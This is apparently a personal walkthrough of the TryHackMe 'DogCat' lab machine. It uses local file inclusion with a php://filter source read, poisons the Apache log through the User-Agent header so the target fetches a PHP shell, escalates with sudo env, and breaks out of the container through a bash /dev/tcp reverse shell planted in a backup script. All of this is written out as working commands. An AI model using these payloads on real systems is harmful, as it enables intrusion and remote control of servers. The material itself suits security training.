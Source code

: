 ```yaml
---
title: "Internal machine tryhackme writeup"
excerpt_separator: "<!--more-->"
date: 2023-11-18
categories:
  - TryHackMe Writeups
tags:
  - Hacking
  - Notes
  - writeup
  - ctf
---
```


### DogCat — TryHackMe Walkthrough

- *My writeups are more of my own mind-map than an "official" walkthrough, it may not seem straightforward sometimes but that's just the beauty of my own thinking.*

## Foothold:

- For recon the usual ***nmap*** + ***gobuster*** as starters.
- I found 3 open ports 80,22 and 1055 of anosys which is new but that wasn’t the exploitable part so it was a rabbit hole.
- The website is a simple web page that gives pictures of cats or dogs when you ask for it, the search parameter called **view** accepts either cat or dog if i try something else it doesn’t work.
- Though i found the interesting part of our foothold which is “cat+your term” no space that gives an error that makes it clear we have to use it.
- After looking around I noticed that we can access the “**index**” page using this:

```php
view=/dog/../index
```

- It gives a different error after searching about it I found that somehow it meant we should encrypt the search item with bse64 as below:

```php
http://10.10.148.135/?view=php://filter/read=convert.base64-encode/resource=./dog/../index
```

- It gives us the source code in php, after reading the code I knew that “**ext**” variable was vulnerable.
- The key was simply writing whatever we want and adding `&ext=` at the end to remove that variable which adds **.php** at the end of each search.

```php
http://10.10.148.135/?view=/dog/../../../../../../../../../var/log/apache2/access.log&ext=
```

- The next part will work only because upon examining the Apache2 logs, we noticed that the User-Agent field is unencoded and vulnerable to command injection.
- So first we create a php reverse shell (either the linux one or the pentest monkey one), we add our ip address and port and start up a ***netcat*** listener.
- in the directory where we created the shell we spin up a python http server:

```bash
python3 -m http.server 8080
```

- We forge a curl command as below:

```bash
curl -A "<?php file_put_contents('bshell.php',file_get_contents('http://@my_ip/shell.php'))>" -s http://@victim_ip/
```

- And we wait until we see the server receiving a GET request of our shell from the victim machine.
- visiting the @victim_ip/bshell.php leads to our netcat catching a reverse shell.
- the first flag is in the web page files and the second is in a directory before that.
- Now that we need two more flags we have to be root and certainly after `sudo -l` of the current user we can access env using root without password, a quick gtfobins visit we do this:

```bash
sudo env /bin/bash
```

- the third flag was in root directory and there was no sign of the fourth.
- Apparently we had to break out of the container interestingly enough there was a backup script in **/opt** so a simple reverse shell would do the trick:

```bash
echo "#!/bin/bash">backup.sh;echo "bash -i>/dev/tcp/@my_ip/3333 0>&1">>backup.sh
```

- spin up a netcat on port 3333 in our machine, run the script in the victim machine and we can have the fourth flag on the reversed shell and that’s it.
